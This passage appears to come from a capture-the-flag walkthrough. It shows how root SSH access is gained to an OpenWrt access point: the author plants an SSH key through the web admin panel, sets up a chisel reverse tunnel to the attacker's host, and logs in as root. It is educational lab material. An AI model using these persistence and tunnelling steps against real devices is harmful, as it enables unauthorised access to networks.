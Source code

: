 ### Add SSH Key

Much more straight forward than setting a job, under System –> Administration there is a bunch of useful menus:

![image-20240726160358349](/img/image-20240726160358349.png)

On the SSH Access tab, it shows that root can log in over SSH:

![image-20240726160439135](/img/image-20240726160439135.png)

SSH-Keys has a form to upload a public key:

![image-20240726160505111](/img/image-20240726160505111.png)

I’ll paste in mine and it shows there:

![image-20240726160559295](/img/image-20240726160559295.png)

I’ll disconnect my `chisel` client and reconnect it forwarding SSH as well:

```

root@attica01:~# ./c client 10.10.14.6:8000 R:80:192.168.1.1:80 R:2222:192.168.1.1:22
2024/07/26 20:06:22 client: Connecting to ws://10.10.14.6:8000
2024/07/26 20:06:22 client: Connected (Latency 85.330327ms)

```

Now the server shows both:

```

2024/07/26 16:06:22 server: session#2: tun: proxy#R:80=>192.168.1.1:80: Listening
2024/07/26 16:06:22 server: session#2: tun: proxy#R:2222=>192.168.1.1:22: Listening

```

I can SSH into `localhost` with that key and get a shell on the AP:

```

oxdf@hacky$ ssh -p 2222 -i ~/keys/ed25519_gen root@127.0.0.1
BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~#

```
